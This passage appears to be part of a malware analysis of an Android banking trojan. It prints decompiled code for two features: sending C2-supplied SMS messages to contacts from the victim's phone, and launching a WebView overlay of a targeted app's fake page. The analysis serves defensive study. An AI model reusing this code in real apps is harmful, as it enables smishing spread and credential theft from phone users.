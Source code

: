 
## Smishing

The malware has the ability to send SMSs to any contact using the phone number of the victim. The SMS text is received from the C2 server then sent to another victim.

```cs
 public final void send_sms(Context context0, String s, String s1) {
        try {
            SmsManager smsManager0 = SmsManager.getDefault();
            ArrayList arrayList0 = smsManager0.divideMessage(s1);
            int v = 0;
            PendingIntent pendingIntent0 = PendingIntent.getBroadcast(context0, 0, new Intent("SMS_SENT"), 0);
            PendingIntent pendingIntent1 = PendingIntent.getBroadcast(context0, 0, new Intent("SMS_DELIVERED"), 0);
            ArrayList arrayList1 = new ArrayList();
            ArrayList arrayList2 = new ArrayList();
            while(v < arrayList0.size()) {
                arrayList2.add(pendingIntent1);
                arrayList1.add(pendingIntent0);
                ++v;
            }

            smsManager0.sendMultipartTextMessage(s, null, arrayList0, arrayList1, arrayList2);
            String s2 = "Output SMS:" + s + " text:" + s1 + "[143523#]";
            this.a("SMS", s2);
            this.f(context0, this.a.ab, s2);
            this.h(context0, this.sharedpref(context0, this.a.Q));
        }
        catch(Exception unused_ex) {
        }
    }
```


## Overlay attack

The malware comes with classic features such as overlya attack.  If a targeted APP is opened then the malware will launch the `html` file of the targeted app. 

```cs
protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        this.c = new WebView(this);
        this.c.getSettings().setJavaScriptEnabled(true);
        this.c.setScrollBarStyle(0);
        this.c.setWebViewClient(new b(this, 0));
        this.c.setWebChromeClient(new a(this, 0));
        this.c.loadUrl(this.b.m);
        this.setContentView(this.c);
    }

    @Override  // android.app.Activity
    public void onDestroy() {
        super.onDestroy();
        this.c.removeAllViewsInLayout();
        this.c.removeAllViews();
        this.c.destroy();
        this.c = null;
        this.finish();
    }
```
